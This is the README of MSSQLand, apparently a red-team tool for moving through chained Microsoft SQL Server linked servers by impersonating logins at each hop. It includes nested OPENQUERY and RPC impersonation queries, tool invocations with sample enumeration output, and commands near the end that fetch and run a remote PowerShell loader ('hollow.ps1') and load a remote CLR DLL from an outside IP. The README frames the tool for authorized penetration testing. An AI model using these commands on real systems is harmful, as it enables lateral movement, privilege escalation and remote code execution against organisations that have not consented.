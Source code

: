 # ✈️ MSSQLand

Land gracefully in your target MSSQL DBMS, as if arriving on a business-class flight with a champagne glass in hand. 🥂

<p align="center">
    <img width="350" src="/media/MSSQLand__icon-nobg.png" alt="MSSQLand Logo">
</p>

MSSQLand is built for interacting with [Microsoft SQL Server](https://en.wikipedia.org/wiki/Microsoft_SQL_Server) database management system (DBMS) during your red team activities. Designed for constrained environments where operations must be executed directly through your beacons, it allows you to pave your way across multiple linked servers and impersonate whoever you can along the way, emerging from the last hop with any desired action.

## 📃 Documentation

MSSQLand is built using `.NET Framework 4.8`, with assembly execution in mind.

- For a full list of commands, arguments, and actions, check out [COMMANDS.md](./COMMANDS.md).
- For an overview of the project structure, refer to [STRUCTURE.md](./STRUCTURE.md).
- Learn how to add new actions in [DEVELOPERS.md](./DEVELOPERS.md).

## 📸 Clean Output for Clean Reports

The tool's output, enriched with timestamps and valuable contextual information, is designed to produce visually appealing and professional results, making it ideal for capturing high-quality screenshots for any of your reports (e.g., customer deliverable, internal report, red team assessments).

All output tables are Markdown-friendly and can be copied and pasted directly into your notes without any formatting hassle.

![Searching pass](./media/example.png)

## 👑 Show Time

You gain access to a database `SQL01` mapped to the user `dbo`. You need to impersonate `webapp02` in order to connect to linked database `SQL02`. In `SQL02`, you need to impersonate `webapp03` in order to go further and so on and so forth. Let's say you’ve landed an agent inside a `sqlservr.exe` process running under the high-privileged `NT AUTHORITY\SYSTEM`. Lucky you!

After some reconnaissance, you suspect this is a multi-hop linked server chain. Typing out all those **RPC** or **OPENQUERY** calls manually? 

This is what it looks like to verify if you are `sysadmin` in `SQL03` when you have to impersonate `webapp03` on `SQL02` and `webapp04` on `SQL03`:

- [OPENQUERY](https://learn.microsoft.com/fr-fr/sql/t-sql/functions/openquery-transact-sql) (If `sys.servers.is_data_access_enabled`):

```sql
SELECT * FROM OPENQUERY([SQL02], 'EXECUTE AS LOGIN = ''webapp03''; SELECT * FROM OPENQUERY([SQL03], ''EXECUTE AS LOGIN = ''''webapp04''''; SELECT IS_SRVROLEMEMBER(''''sysadmin''''); REVERT;'') REVERT;')
```

- [RPC Out](https://learn.microsoft.com/fr-fr/sql/t-sql/functions/openquery-transact-sql) (If `sys.servers.is_rpc_out_enabled`):

```shell
EXEC ('EXECUTE AS LOGIN = ''webapp03''; EXEC (''EXECUTE AS LOGIN = ''''webapp04''''; SELECT IS_SRVROLEMEMBER(''''sysadmin''''); REVERT;'') AT [SQL03]; REVERT;') AT [SQL02]
```

No thanks 🚫. Let MSSQLand handle the heavy lifting so you can focus on the big picture. You've already impersonated multiple users on each hop, and now you want to enumerate links on `SQL04`:

```shell
.\MSSQLand.exe /h:localhost:webapp02 /c:token /l:SQL02:webapp03,SQL03:webapp04,SQL04 /a:links
```

The output is as follows:
```txt
[>] Trying to connect with TokenCredentials
[+] Connection opened successfully
|-> Server: localhost,1433
|-> Database: master
|-> Server Version: 15.00.2000
|-> Client Workstation ID: WS-445c74
|-> Client Connection ID: b7c172a7-c349-4268-a466-285d2af89fbb
[i] Logged in on SQL01 as NT AUTHORITY\SYSTEM
|-> Mapped to the user dbo
[i] You can impersonate anyone on SQL01 as a sysadmin
[+] Successfully impersonated user: webapp02
[i] Logged in as webapp02
|-> Mapped to the user dbo
[i] Execution chain: SQL02 -> SQL03 -> SQL04
[i] Logged in on SQL04 as webapps
|-> Mapped to the user guest

[>] Executing action 'Links' against SQL04
|-> Retrieving Linked SQL Servers

| Last Modified        | Link  | Product    | Provider | Data Source | Local Login | Remote Login | RPC Out | OPENQUERY | Collation |
| -------------------- | ----- | ---------- | -------- | ----------- | ----------- | ------------ | ------- | --------- | --------- |
| 7/7/2020 1:02:17 PM  | SQL05 | SQL Server | SQLNCLI  | SQL05       | webapp05    | webapps      | True    | True      | False     |
```

Now you want to verify who you can impersonate at the end of the chain:
```shell
.\MSSQLand.exe /h:localhost:webapp02 /c:token /l:SQL02:webapp03,SQL03:webapp04,SQL04 /a:impersonate
```
The output shows:

```txt
[>] Trying to connect with TokenCredentials
[+] Connection opened successfully
|-> Server: localhost,1433
|-> Database: master
|-> Server Version: 15.00.2000
|-> Client Workstation ID: WS-445c74
|-> Client Connection ID: b7c172a7-c349-4268-a466-285d2af89fbb
[i] Logged in on SQL01 as NT AUTHORITY\SYSTEM
|-> Mapped to the user dbo
[i] You can impersonate anyone as a sysadmin
[+] Successfully impersonated user: webapp02
[i] Server chain: SQL02 -> SQL03 -> SQL04
[i] Logged in as webapps
|-> Mapped to the user guest

[>] Executing action 'Impersonation' against SQL04
|-> Starting impersonation check for all logins
|-> Checking impersonation permissions individually

| Logins      | Impersonation |
| ----------- | ------------- |
| sa          | No            |
| MarieJo     | Yes           |
| Imane       | Yes           |
| John        | No            |
```

Great! Now you can directly reach out to your loader with:
```shell
.\MSSQLand.exe /h:localhost:webapp02 /c:token /l:SQL02:webapp03,SQL03:webapp04,SQL04:MarieJo /a:pwshdl "172.16.118.218/d/g/hollow.ps1"
```

Or even use Common Language Runtime (CLR) to load remotely a library with:
```txt
/a:clr \"http://172.16.118.218/d/SqlLibrary.dll\"
```

## 🫂 Contributing 

Contributions to MSSQLand are welcome and appreciated! Whether it's fixing bugs, adding new features, improving the documentation, or sharing feedback, your effort is valued and makes a difference.
Open-source thrives on collaboration and recognition. Contributions, large or small, help improve the tool and its community. Your time and effort are truly valued. 

Here, no one will be erased from Git history. No fear to have here—no one will copy-paste your code without adhering to the collaborative ethos of open-source.

Please see the [CONTRIBUTING.md](./CONTRIBUTING.md) for detailed guidelines on how to get started.

## 🥚 Origin

MSSQLand was born from real-world needs and hard-earned lessons.

Originally, I contributed extensively to [SQLRecon](https://github.com/skahwah/SQLRecon), which provided a solid foundation for MS SQL post-exploitation and reconnaissance. However, during my contributions to SQLRecon, particularly in addressing [chained linked server traversal](https://github.com/skahwah/SQLRecon/issues/16#issuecomment-2048435229) and enhancing user impersonation, I encountered significant roadblocks in how contributions were handled. [My pull request](https://github.com/skahwah/SQLRecon/pull/17), which introduced major improvements in impersonation, chaining, and context management, was ultimately not merged but copy pasted.

Rather than let this work go to waste, I decided to develop MSSQLand, an OOP-driven, modular, and community-friendly alternative. Unlike SQLRecon, which required deep refactoring to make simple modifications, MSSQLand was built with developers in mind. The tool is built with extensibility in mind, allowing integration of new features while maintaining clarity and simplicity. It aims to provide a structured, customizable, and operator-friendly experience for engagements requiring MS SQL exploitation.

## ⚠️ Disclaimer

This tool is designed for educational purposes only and is intended to assist security professionals in understanding and testing the security of SQL Server environments in authorized engagements. It is specifically crafted to be used in controlled environments, such as:
- Penetration testing labs (e.g., HackTheBox, OffSec exam scenarios).
- Personal lab setups designed for ethical hacking and security research.

## Legal Notice
Any unauthorized use of this tool in real-world environments or against systems without explicit permission from the system owner is strictly prohibited and may violate legal and ethical standards. The creators and contributors of this tool are not responsible for any misuse or damage caused.

Use responsibly and ethically. Always respect the law and obtain proper authorization.
